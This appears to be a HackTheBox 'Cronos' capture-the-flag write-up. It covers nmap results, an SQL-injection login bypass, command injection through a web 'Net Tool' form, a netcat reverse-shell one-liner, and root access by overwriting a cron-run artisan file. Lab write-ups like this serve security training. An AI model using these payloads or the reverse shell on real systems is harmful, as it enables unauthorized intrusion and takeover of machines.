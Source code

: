 ```yaml
---
layout: post
title:  "HackTheBox :: Cronos"
date:   2020-1-2 00:10:00 +0000
categories: hackthebox
---
```


# Nmap scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```
# pwning user
The presence of port 53 being open hinted to me that virtual host routing may be involved. Edit /etc/hosts file to add `cronos.htb` for a site to resolve.
Resolving the host also returns 'admin.cronos.htb' so add that too.

The admin subdomain automatically stood out so i went to the page and found a login form. Basic sql injection ('OR 1=1# and any password) bypasses the login and allows us entry into the page. 
"Net Tool v0.1" allows us to input code to execute but we can inject our own by adding a semicolon after the expected address. Inject a basic bash reverse shell and run a listener to recieve a shell.
```
 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 1234 >/tmp/f 
```
We can now grab user.txt

# Gaining root
As the box name suggests this proceedure may involve a cronjob. Doing a check for jobs returns the following;
```
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

From this it appears that root is executing the file 'artisan' on a regular cron. If we replace the file in this location with one under the same name it should execute as root. Placing a shell here executes when the cron triggers and gives us a shell as root.
```
listening on [any] 9150 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.13] 44730
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 10:57:01 up 3 days,  1:20,  0 users,  load average: 0.02, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
```
Can now grab the root flag and cleanup.

